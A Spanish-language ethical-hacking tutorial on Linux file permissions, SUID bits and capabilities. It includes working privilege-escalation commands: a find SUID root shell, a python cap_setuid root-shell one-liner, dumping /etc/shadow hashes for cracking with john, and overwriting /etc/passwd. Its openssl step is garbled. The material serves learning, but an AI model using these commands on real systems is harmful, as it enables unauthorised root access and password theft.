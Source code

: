 ```yaml
---
description: >-
  Veremos como leer los permisos de un fichero y como encontrar permisos para
  realizar la explotación.
---
```


# 🔐 Permisos y explotación

![](https://raw.githubusercontent.com/w0lfst/Apuntes-Hacking-Etico/main/assets/images/permisos.png)

{% hint style="info" %}
`X` puede tener dos significados, en caso de que sea una fichero significa que tienes permiso para ejecutarlo y si es un directorio significa que puedes entrar.&#x20;
{% endhint %}

## Permisos formato decimal

| rwx | r-x | r-x |
| --- | --- | --- |
| 7   | 5   | 5   |

* 7 = 1+2+4
* 5 = 1+4
* 5 = 1+4

La posición se cuenta desde la derecha, cada letra tendría los siguientes números:

* x = 1
* w = 2
* r  =4

{% hint style="info" %}
Todo esta convertido de binario a decimal. Para saber como realizar la conversión mira el siguiente punto.
{% endhint %}

### ¿Cómo convertir de binario a decimal?

| r-x | r-- | -w- |
| --- | --- | --- |
| 101 | 100 | 010 |
| 5   | 4   | 2   |

* En el primer ejemplo (r-x) tendríamos que contar la posición desde la derecha, seria así:
  * 0 = x
  * 1 = -
  * 2 = r
* Solo operamos con las posiciones que tengan un 1, es decir, con la posición 0 y 2.
* A continuación elevamos 2 a cada posición:
  * 2^0 + 2^2 = 1 + 4 = 5
  * 2^2 = 4
  * 2^1 = 2

## Atributos de ficheros.

***

El uso del comando está restringido naturalmente al usuario root y en algunos casos al propietario del fichero.

En el siguiente ejemplo vemos como evitar que el propio usuario borre un fichero:

```bash
chattr +i -V fichero.txt
```

* `+i` Añade flag que impide borrar el fichero incluido el usuario **root**.
* `-V` Muestra todo lo que realiza el comando.

{% hint style="info" %}
[Clic aquí para ver el manual de chattr](https://man7.org/linux/man-pages/man1/chattr.1.html)
{% endhint %}

Si queremos ver los atributos que tiene un fichero utilizamos el siguiente comando:

```bash
lsattr fichero.txt
```

## Permisos SUID

Los permisos SUID son permisos de acceso que pueden asignarse a archivos o directorios. Son utilizados principalmente para permitir a los usuarios del sistema ejecutar binarios con privilegios elevados temporalmente para realizar una tarea específica.

Si un fichero tiene activado el bit **Setuid** se identifica con una `s` de la siguiente forma:

```
w0lfst@h4cknet:~$ ls -l /usr/bin/passwd
-rwsr-xr–x 1 root root 27920 ago 15 22:45 /usr/bin/passwd
```

Esta propiedad es necesaria para que los usuarios normales puedan realizar tareas que requieran privilegios más altos que los que dispone un usuario común.&#x20;

### Ejemplo de explotación

1. Asignamos el permiso setuid, por ejemplo, el comando **find** es 755, con `chmod` añadimos un 4 al permiso del archivo, quedaría así:

```bash
chmod 4755 /usr/bin/find
```

Ahora buscaríamos en [GTFOBins](https://gtfobins.github.io/) el comando que tiene ese permiso, en este caso, el comando find.

GTFOBins nos dice que ejecutemos el siguiente comando para obtener una sh:

```bash
find . -exec /bin/sh -p \; -quit
```

Así conseguimos acceso root gracias a que el comando find tenia asignado un permiso setuid.

### ¿Cómo lo hacemos si no podemos asignar permisos suid?

Para buscar permisos suid en la maquina victima utilizaremos la herramienta find de la siguiente manera:&#x20;

```bash
find / -type f -perm -4000 2>/dev/null 
```

{% hint style="info" %}
`2>/dev/null` se utiliza para evitar que salgan errores por la terminal, como no tenemos acceso a todos los ficheros de la maquina saldrían muchos avisos de `Permision denied` y de esta forma lo evitamos.
{% endhint %}

Buscar archivos con permisos de escritura:

```bash
find / -writable 2>/dev/null 
```

## Ejemplos ataque:

### Permiso de lectura:

Si tenemos permiso para ver el archivo shadows podremos ver las contraseñas de los usuarios hasheadas en un formato sha-512.

{% hint style="info" %}
Podemos ver el tipo de hash que utiliza nuestra distribucin de linux con el siguiente comando: `cat /etc/login.defs | grep "ENCRYPT_METHOD"`
{% endhint %}

* Desencriptaremos las contraseñas por fuerza bruta, por ejemplo con el diccionario rockyou.
* Exportamos el hash:

```bash
cat /etc/shadow | grep "user" > hash
```

* Crackeamos:

```bash
john --wordlist=/usr/share/wordlists/rockyou hash 
```

* Vemos la contraseña:

```bash
john --show hash
```

### Permisos de escritura:

Si tenemos permisos para escribir en el `/etc/passwd` haremos lo siguiente:

* Nos creamos una contraseña:

```bash
openssl nueva-contraseña
```

1. Veremos un hash y lo copiamos.
2. Con `hash` y `hashid` podemos saber en que formato esta hecho.
3. Modificamos el `/etc/passwd` y ponemos el hash que hemos generado para así loguearnos como ese usuario con la contraseña creada anteriormente.

## Capabilities

Asignaremos un capabilite para realizar la prueba:

```bash
setcap cap_setuid+ep /usr/bin/python3.9
```

En este caso estamos asignando una capabilitie de tipo setuid, podemos ver mas tipos [aqui](https://wiki.gentoo.org/wiki/Hardened/Overview\_of\_POSIX\_capabilities).

Para obtener las capabilities que tenemos asignadas actualmente:

```bash
cd /
getcap -r / 2>/dev/null
```

En este caso encontraremos una capabilitie de python tipo `cap_setuid+ep`.\
Aprovecharemos esta capabilitie para lanzarnos una bash con privilegios de root:

```bash
python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

